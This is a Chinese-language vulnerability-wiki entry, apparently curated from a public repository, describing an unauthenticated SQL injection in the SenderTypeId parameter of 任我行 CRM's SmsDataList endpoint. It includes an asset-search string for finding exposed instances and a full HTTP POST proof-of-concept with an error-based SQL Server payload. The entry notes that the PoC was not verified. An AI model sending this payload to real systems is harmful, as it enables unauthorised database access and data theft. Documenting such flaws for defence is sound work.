


# 任我行CRM SmsDataList SenderTypeId SQL注入

## 条目说明

- 对象与具体问题：任我行CRM；SmsDataList SenderTypeId SQL注入
- 版本、配置及部署条件：SQL Server，版本未知
- 认证与权限前提：无Cookie请求，实际权限未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与270全文核心及图片内容命名相同，目录任我行-CRM-SmsDataList把接口当产品
- 结果图未视检、无根因/补丁/版本，不能由重复转载提高证据等级

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

*任我行CRM*系统是客户关系管理,集OA自动化办公、OM目标管理、KM知识管理、HR人力资源为一体集成的企业管理软件。

任我行 CRM SmsDataList 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意数据库语句，获取敏感信息。

### 漏洞影响

任我行 CRM

### 网络测绘

"欢迎使用任我行CRM"

### 漏洞复现

登陆页面



验证POC

```http
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
